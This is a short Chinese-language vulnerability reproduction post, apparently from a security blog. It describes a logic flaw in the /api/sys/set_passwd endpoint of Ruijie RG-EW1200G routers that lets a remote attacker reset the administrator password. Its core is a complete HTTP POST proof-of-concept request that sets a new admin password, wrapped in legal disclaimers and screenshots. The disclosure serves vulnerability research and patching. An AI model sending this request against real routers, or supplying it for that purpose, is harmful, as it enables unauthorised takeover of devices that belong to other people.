 #  【漏洞复现】锐捷 RG-EW120路由器存在密码重置漏洞  
什么安全  什么安全   2025-07-08 06:33  
  
   
 请勿利用  
文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接  
或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责  
！    
## 产品描述  
  
锐捷网络  
RG-EW1200G是一款有线无线全千兆  
双频无线路由器  
，适合平层家居、别墅、小型店铺、SOHO办公等场景使用。  
## 漏洞描述  
  
  
系统  
/api/sys/set_passwd存在逻辑缺陷，远程攻击者可通过该接口任意修改管理员密码实现系统登录。  
## Poc  
  
```
POST /api/sys/set_passwd HTTP/1.1
Host: 
Content-Length: 42
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.140
Content-Type: application/json;charset=UTF-8
Origin: 
Referer: 
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"username":"web","admin_new":"xxxxx"}
```  
  
##   
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/w0DeFbFI15w2WtvYFbw9eFYu5sibOVaEMkRQsaiaqrXnppI2ECGCzcniawXGnDLib2TdF70BHFG7PKGuF84ZLIKia7g/640?wx_fmt=png&from=appmsg "")  
  
  
小  
知  
识  
  
  
  
  
**依据《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息罪的，处3年以下有期徒刑或者****拘役****，并处或者单处****罚金****;情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Gn0JbCnxttRbj4Mib3fcSfwr0tP4UxXtjf47HFwaZcgwWStzGNLNMlGKQJz902fHTT8PCfOwHedLqarXh0eC9KQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声  
明  
  
  
  
**本文提供的技术参数仅供学习或运维人员对内部系统进行测试提供参考，未经授权请勿用本文提供的技术进行破坏性测试，利用此文提供的信息造成的直接或间接损失，由使用者承担。**  
  
  
